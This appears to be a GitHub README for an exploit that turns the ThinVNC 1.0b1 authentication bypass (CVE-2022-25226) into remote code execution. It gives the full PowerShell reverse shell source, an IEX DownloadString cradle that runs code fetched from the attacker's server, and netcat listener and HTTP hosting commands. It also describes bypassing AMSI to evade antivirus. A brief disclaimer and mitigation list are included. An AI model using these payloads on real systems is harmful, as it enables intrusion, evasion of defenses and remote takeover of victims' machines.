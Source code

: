 # ThinVNC 1.0b1 - Authentication Bypass to Remote Code Execution (CVE-2022-25226)

**Author:** krill-x7  
**Reference:** https://fluidattacks.com/advisories/sinatra

---

## Overview

ThinVNC 1.0b1 contains an authentication bypass vulnerability (CVE-2022-25226) allowing remote attackers to interact with the backend unauthenticated. By leveraging exposed `/cmd` endpoints, attackers can simulate keystrokes, open PowerShell, bypass AMSI, and execute arbitrary commands—ultimately leading to Remote Code Execution (RCE).

This script chains those primitives to gain a reverse shell on the target system.

---

## Disclaimer

This code is provided **for educational purposes only**.  
Use it **only on systems you own or are explicitly authorized to test**.

---

## Requirements

- Python 3
- `rev.ps1` reverse shell script hosted on your attacker machine
- A listener (e.g., Netcat) to catch the shell

---

## Usage

```bash
python3 thinvnc_rce.py -t <TARGET_IP> -tp <TARGET_PORT> -a <ATTACKER_IP> -ap <ATTACKER_PORT>
```

---

## Example

```bash
python3 thinvnc_rce.py -t 192.168.1.100 -tp 8080 -a 192.168.1.200 -ap 8000
```

---

## Payload Setup

### 1. Create `rev.ps1`

Save this to a file called `rev.ps1`.  
**Important:** Replace `192.168.1.200` and `8000` with your attacker's IP and listening port.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.200",8000);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
}
$client.Close()
```

---

### 2. Host `rev.ps1`

From the same directory:

```bash
python3 -m http.server 8000
```

---

### 3. Start a Listener

```bash
nc -lvnp 8000
```

---

## Exploit Workflow

1. Get a valid SID using unauthenticated request to `/cmd?cmd=connect`.
2. Start that SID with keyboard/mouse access via `/cmd?cmd=start`.
3. Send `Ctrl+Esc` key combo to open the Start menu.
4. Launch PowerShell in bypass mode.
5. Bypass AMSI to disable PowerShell protections.
6. Execute the reverse shell payload from your HTTP server.

---

## Payload Execution

This is the payload that gets executed in memory:

```powershell
IEX((New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>:<PORT>/rev.ps1'))
```

Replace `<ATTACKER_IP>` and `<PORT>` with your actual IP and port.

---

## Notes

- The payload is executed using clipboard-based command injection.
- AMSI bypass is included to evade PowerShell-based AV detections.
- ThinVNC runs PowerShell with default user permissions—if running as admin, shell is elevated.

---

## Mitigations

- Do not expose ThinVNC to the internet.
- Block `/cmd` endpoint via web server config or WAF.
- Switch to supported, secure alternatives (e.g., Apache Guacamole).
- Monitor PowerShell usage and clipboard injection behavior.

---

## Credits

- Exploit and automation: **krill-x7**
- Vulnerability discovery and advisory: [Fluid Attacks – Advisory Sinatra](https://fluidattacks.com/advisories/sinatra)
